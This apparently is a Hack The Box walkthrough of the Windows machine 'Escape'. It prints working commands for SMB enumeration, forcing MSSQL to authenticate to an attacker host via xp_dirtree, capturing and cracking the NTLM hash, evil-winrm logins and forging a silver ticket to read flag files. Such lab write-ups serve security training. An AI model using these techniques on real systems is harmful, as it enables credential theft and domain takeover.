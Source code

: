 ```yaml
---
title: Escape @ HackTheBox  
date: 2025-04-17 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [active directory,domain controller,esc1,responder,ntlm,mssql,silver ticket,hack the box]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post3/Escape.jpg
---
```

**Hello** This is a very simple walkthrough for the windows machine Escape (medium). In this walkthrough we'll practice AD enumeration and Exploitation, without further ado let's get into it.
## Enumeration
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
the scan showes multiple windows AD specific ports open inidicating the machine is a Domain Controller, with a domain name of sequel.htb
after adding the file to /etc/hosts i started enumerarting the services (ldap,smb,etc) and trying to collect information.
After that i found that a Null session was possible in the SMB, so l'ets see whats there :
```shell
smbclient -L //sequel.htb 
```
this command listed the possible share drives, and among them was folder called Public.
```shell
smbclient -U "" //sequel.htb/Public
```
i found a .pdf and i downloaded it using **get**.
Interestingly enough, inside the PDF file, we can find credentials to access the MSSQL instance that we noticed during our initial enumeration, and for this we'll use **impacket-msssqlclient**
```shell
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```
## Foothold
after gaining access i tried many techniques like enabling xp_cmdshell but sadly nothing works, and therefor i tried to force the mssql instance to authenticate to my machine to capture the NTLM hash of the service account responder. 
First let's set up responder :
```shell
sudo responder -I tun0 -v
```
Then, we ask from SQL to list files on our machine using a UNC (Universal Naming Convention) path.
```shell
EXEC MASTER.sys.xp_dirtree '\\10.10.14.7\b2hu', 1, 1
```
back to responder and it seems that he caught the ntlm hash of the user account **sql_svc**, now lets crack it using hashcat (the hash format is NetNTLMv2 and the code is 5600)
```shell
hashcat -m 5600 hash.txt /usr/share/wordlist/rockyou.txt
```
the password seems to be **REGGIE1234ronnie**.
now let's try to authenticate as the user sql_svc over WinRM. We will use evil-winrm.
```shell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```
## Lateral Movement
we accessed thee sql_svc but there's no **user.txt** file a quick look at the C:\Users folder showed a user **Ryan.Cooper** which indicates that this user might be the target user, while searching for any lead to move to the ryan user i found a log file inside the sqlserver folder, it appears that this user failed to login to the sql instance using this password : **"NuclearMosquito3"**, and this password would most likely be his account's password, let's test it :
```shell
evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3
```
it worked, and now we can retrieve the **user.txt** falg
### PrivEsc
in this step i'll try to forge a ticket for the admin user to access the mssql database and execute xp_cmdshell, this attack verctor is known as **silver ticket**, since we've got the creds for the sql_svc account lets try to get th sid of the domin
```shell
PS C:\Users\Ryan.Cooper\Documents> Get-LocalUser -Name $env:USERNAME | Select sid

SID
---
S-1-5-21-4078382237-1492182817-2568127209-1105
```
the domain SID is all but the last part, next we need the NTLM hash of the svc_sql account, using this <a href=https://codebeautify.org/ntlm-hash-generator>online tool</a> to create it :
```text
1443EC19DA4DAC4FFC953BCA1B57B4CF
```
The spn parameter is needed to produce a valid ticket but we can place anything we want since it's not set
to begin with.
```text
b2hu/DC.SEQUEL.HTB
```
Now, we can craft a ticket for the MSSQL service.
```shell
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF
-domain-sid S-1-5-21-
4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn
nonexistent/DC.SEQUEL.HTB Administrator
```
Now, we export our ticket and authenticate to the service using Kerberos authentication.
```shell
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
```
Now, we can use the following queries to read the user.txt as well as the root.txt 
```shell
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS
Contents
SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB)
AS Contents
```